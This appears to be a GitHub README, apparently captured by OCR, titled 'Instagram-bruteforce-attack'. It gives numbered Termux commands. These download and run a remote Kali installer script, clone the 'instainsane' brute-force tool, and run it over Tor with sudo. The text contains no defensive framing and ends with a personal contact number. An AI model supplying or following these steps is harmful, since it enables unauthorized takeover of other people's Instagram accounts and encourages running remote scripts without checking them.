 # Instagram-bruteforce-attack
💻Please On your Desktop Mode💻
✨FOLLOW My Comments✨

*First Step: Copy this👇👇👇👇And paste Termux And install kali and Type Clear And continue Second Step♥️

pkg install wget openssl-tool proot -y && hash -r && wget https://raw.githubusercontent.com/EXALAB/AnLinux-Resources/master/Scripts/Installer/Kali/kali.sh && bash kali.sh 


*Second Step:$./start-kali.sh 

*Third Step:#apt install git 

*Foruth Step:#apt-get install tor
 
*Fiveth Step:#git clone https://github.com/thelinuxchoice/instainsane

*Sixth Step:#ls 

*Seventh Step:#cd instainsane 

*Eighth Step:#chmod +x * 

*Nineth Step:#ls

*Tenth Step:#./install.sh

*Eleventh Step:#aptinstall sudo  

*Twelveth Step:#sudo ./instainsane.sh

🃏Tools Has install🃏

⚠️Any Doubt Contact Me:7592988554⚠️

